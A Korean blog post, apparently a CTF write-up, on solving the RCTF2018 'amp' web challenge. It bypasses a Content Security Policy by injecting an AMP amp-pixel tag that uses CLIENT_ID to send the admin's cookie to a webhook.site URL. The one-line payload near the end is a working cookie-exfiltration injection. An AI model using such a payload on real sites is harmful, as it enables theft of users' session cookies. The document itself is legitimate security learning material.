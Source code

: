 ```yaml
---
title: "[RCTF2018] amp Write up"
date: 2018-05-23
draft: false
category: [ctf]
subcategories: [2018]
tags: [Write-up, CTF, RCTF2018]
---
```


2018년 5월 19일부터 5월 21일까지 RCTF가 있었다.  

비록 대회 도중에는 문제를 못풀었지만, 대회 종료 후 amp 문제를 풀게되어 Write-up을 작성하게 되었다.  

<!--more-->

문제 링크에 접속하면 아래와 같은 페이지를 확인할 수 있다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_01.PNG)  

쿠키를 확인 해 보니, `FLAG` 라는 이름으로 `flag_is_in_admin_cookie` 값이 있었다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_02.PNG)  

입력 값을 줄 수 있는 곳이 없어 헤메던 중, 메인 페이지에 `HEY INPUT YOUR NAME AFTER QUERYSTRING`이 적혀있는 것을 발견했다.  

`QUERYSTRING`은 `GET` 방식으로 인자를 넘길 때 `index.php?id=aaa`와 같은 형태를 의미한다.  

`NAME`을 입력하라고 했으므로, 문제의 url 뒤에 `name=ccoma`를 입력 해 보았다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_03.PNG)  

그랬더니 그림과 같이, name 값이 그대로 출력되는 것을 확인할 수 있었다.  

`내가 입력한 값이 그대로 출력` 된다는 점에서 `XSS` 공격을 생각했지만, 분명히 script는 들어가는데 동작하지는 않았다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_04.PNG)  

`curl -v` 명령어를 통해 확인 해 보니, `CSP(Content Security Policy)`가 걸려 있었다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_05.PNG)  

실제 CTF 대회 기간에는 이정도밖에 알아내지 못해서 문제를 풀지 못했었다.(흑 ㅠㅠ)  

그래서 대회 종료 후, Write-up이 올라오기만을 기다리다가 ctftime.org에 풀이가 올라온 후 문제를 다시 풀어보았다.  

내가 간과한 점은, 바로 주석이었다.  

페이지 소스를 보면 HTML 주석으로 다음과 같은 글이 있다.  

```
<!-- OK, I don't care AMP Standard -->
<!-- It just wastes my time. -->
```

대회 기간에는 주의깊게 살펴보지 않아 무슨 내용인지 몰랐지만, Write-up을 보고 다시 살펴보니 `AMP 표준에 대해서는 신경쓰지 않는다`는 내용이었다.  

`AMP 표준`은 아래 링크에서 확인할 수 있다.  

> [AMP 표준 확인](https://www.ampproject.org/docs/reference/components)

`AMP(Accelerated Mobile Pages)`란, Google에서 시작한 프로젝트로 모바일 전용 빠른 웹 페이지를 의미한다.  

모바일 시장에서 페이지 로딩 속도는 이탈률을 막는 매우 중요한 요소라고 한다.  

그런데 우리가 일반적으로 사용하는 웹 페이지는 모바일에서 성능 저하가 나타나기 때문에 Google에서는 AMP를 만들어 이를 보완하고자 했다.  

하지만 Google은 모바일에서 웹 페이지의 성능을 보장하기 위해 몇 가지 제약 사항을 주었다.  

* CSS는 모두 inline으로 해야하며 50KB를 넘을 수 없다.
* script는 `<script async src="https://cdn.ampproject.org/v0.js"></script>` 처럼 AMP에서 제공하는 것 말고 외부 스크립트는 허용하지 않는다.
* `<amp-img>`, `<amp-video>` 처럼 AMP 전용 태그를 사용해야 한다.

이 외에도 다양한 제약사항이 있지만, 이번에 출제 된 문제를 풀기 위해서는 이정도만 알고 있어도 충분할 것 같다.  

`AMP` 라는 힌트를 얻었으므로, AMP 표준을 둘러보았다.  

내가 문제를 풀기 위해 필요한 것은 `admin의 flag` 이기 때문에, 무언가 쿠키 값을 가져올 수 있는 태그가 필요했다.  

태그를 찾던 중, `<amp-pixel>` 태그를 보게 되었다.  

`<amp-pixel>` 태그는 페이지 뷰를 카운트 할 때 유용한 태그라고 한다.  

`<amp-pixel>` 태그에는 기본적으로 url을 속성으로 주어야 하는데, 만약 해당 코드가 있는 페이지를 누군가 접근한다면, 태그 안에 적혀있는 url로 `GET request`를 전송 해 준다.  

그런데 이 태그의 속성으로 `CLIENT_ID`라는 것을 사용할 수 있다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_06.PNG)  

`CLIENT_ID`는 사용자를 식별하기 위한 속성으로, `AMP 문서가 Google AMP 캐시를 통해 제공되지 않을 경우에는 쿠키로 대체`된다.  

즉, 쿠키 값에 접근할 수 있다.  

따라서 문제를 풀기 위해 `<amp-pixel>` 태그를 사용하고, url에는 내가 `GET request`를 받아서 확인할 수 있는 주소로 주고, `CLIENT_ID`를 사용 해 쿠키 값을 함께 전송하도록 하면 된다.  

그런데 내가 필요한 것은 나의 쿠키가 아니라 `admin의 쿠키값`이다.  

이를 위해 있는 기능이 `name`을 전송한 뒤에 볼 수 있는 `STOP TRACKING ME` 버튼이다.  

이 버튼을 누를 경우, `We logged your request and contacted admin`이라고 출력된다.  

즉, `admin`이 내가 `name`의 인자로 준 `XSS` 코드를 실행시킬 수 있다.  

이제 필요한 것은, 내가 `GET request`를 확인할 수 있는 링크이다.  

`<amp-pixel>`은 `https`만을 지원하는데, 내 서버에는 `https` 서버가 구축되어 있지 않다.  

python으로 https 서버를 구축 해 봤지만, 제대로된 인증서를 사용하지 않아서인지 응답을 정확히 받아오지 못했다.  

그래서 [https://webhook.site](https://webhook.site/#/) 를 사용했다.  

해당 사이트에서 URL을 받은 후, 문제에서 `name` 옆에 아래와 같이 입력 해 주었다.  

```
<amp-pixel src="https://webhook.site/ee162cc6-d050-482e-89b5-9efd05074455?url=CLIENT_ID(FLAG)"></amp-pixel>
```

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_07.PNG)  

그 결과 위와 같이 코드가 삽입된 것을 확인할 수 있었다.  

`https://webhook.site`로 돌아가 확인 해 보니 아래와 같이 내가 보낸 요청이 온 것을 확인할 수 있었다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_08.PNG)  

이에, `STOP TRACKING ME` 버튼을 누른 후, 요청을 다시 확인 해 보았다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_09.PNG)  

드디어 플래그를 얻을 수 있었다!  

```
FLAG : RCTF{El_PsY_CONGRO0_sg0}
```

Plaid CTF, DEFCON에 이어 RCTF까지 문제 내에 힌트가 있음에도 이를 주의깊게 확인하지 않았던 문제들이 많아 너무 아쉬웠다.  

이번 대회에서는 대회 기간동안에 문제를 풀지 못했지만, 다음 대회에서는 좀 더 주의깊게 확인 해 꼭 대회 기간 내에 문제를 풀어보고 싶다.  
